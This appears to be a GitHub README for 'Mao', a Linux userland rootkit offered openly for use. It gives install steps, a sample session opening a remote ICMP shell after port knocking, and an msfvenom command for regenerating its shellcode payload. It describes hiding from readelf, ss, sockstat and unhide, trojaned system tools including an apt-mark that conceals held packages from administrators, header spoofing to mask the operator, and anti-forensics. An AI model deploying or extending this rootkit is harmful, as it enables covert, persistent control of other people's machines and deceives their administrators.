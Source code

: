 # Mao
A protracted people's rootkit.<br><br>
<img src="https://i.redd.it/4pwkibrp0uq91.jpg" />

Another x86_64 userland rootkit for Linux. 
---

Like in real life, Mao took a lot of inspiration from <a href="https://github.com/mephistolist/hoxha">Hoxha</a>. While his style differed from <a href="https://github.com/mephistolist/tito">Tito</a>, they both integrated elements of Capitalism into their economies. At the same time, Mao had his own theory and legacy. For this reason you may find elements of the two previously mentioned projects, but a great deal of improvements and changes. Better mutation, anti-forensics and better hiding on the system. Again, I will probably hold off on going in-depth on this project until after it publication. 

You will need to install one dependency in order to build this code:

```
sudo apt install libreadline-dev
```

You can then download make and install with the following:

```
git clone https://github.com/mephistolist/Mao.git; cd Mao; make; make install;

```

After this you should have a binary called 'enver', you cannot see in the project directory. However, you can type 'enver' with the ip address of where you have this installed to connect:

```
./enver 127.0.0.1
[*] Initiating knock sequence. Please wait.
[*] ☭ Political power grows out of the barrel of a gun. ☭
[+] ICMP shell connected. Type commands (type 'exit' to quit):
icmp-shell>
```

New Features
---

The enver client taken from <a href="https://github.com/mephistolist/hoxha">Hoxha</a> has the ability to spoof X-Forwarded-For, X-Originating-IP, X-Remote-IP and X-Remote-Addr headers. In the event someone was to intercept your traffic and you have spoofed your ip via a vpn or proxy, these headers give away your true location, or confuse someone further if also spoofed. 

You will also notice that both enver and hoxha have checks to ensure that the hex value of 0xDEADBEEF is passed. So even after the port-knocking checks and passwords, that will be need to be passed with each packet to ensure the connections stays in place.

Unlike with <a href="https://github.com/mephistolist/hoxha">Hoxha</a>, we will be hidden from readelf, unhide, sockstat, ss and tab completion. Though you may need to exit SSH and reconnect after installing to see the hidding from tab completion worker.

To prevent overwriting of packages that would fool an administrator, we will also install a custom version of apt-mark that will not show packages we have put on hold. 

Like <a href="https://github.com/mephistolist/tito">Tito</a>, we will use an ICMP shell, but the shell with Tito used older functions that could not allow for static linking. The ICMP shell with Mao will allow for static linking.

A lot of new features were added to the sections for mutation and antibugging, 

Devlopment Notes
---

If you make changes to this code, you will need to regenerate its binary data with msfvenom:

```
msfvenom -p linux/x64/exec CMD=/usr/bin/hoxha -f raw -o shellcode.bin -b "\x00\x0a\x0d"
```

Then convert that to base64:

```
cat shellcode.bin | base64 -w0
```

Then replace it with the base64 inside libexec.c and recompile to apply your changes. 

If you want to make changes to the binaries in the 'tools' directory, you can grep for 'Mao' in the source code to see where we have made our edits:

```
grep -nr Mao .
./sockstat.c:299:    /* --- Mao Handler --- */
./readelf.c:1977:	/* Mao hook */  
./ss.c:2469:    	/* Mao hook to hide ICMP/ICMPv6 sockets entirely */
./apt-mark.cc:368:    // Mao - packages to filter out
```

This has currently been tested on Debian Forky using kernel 6.16.7.
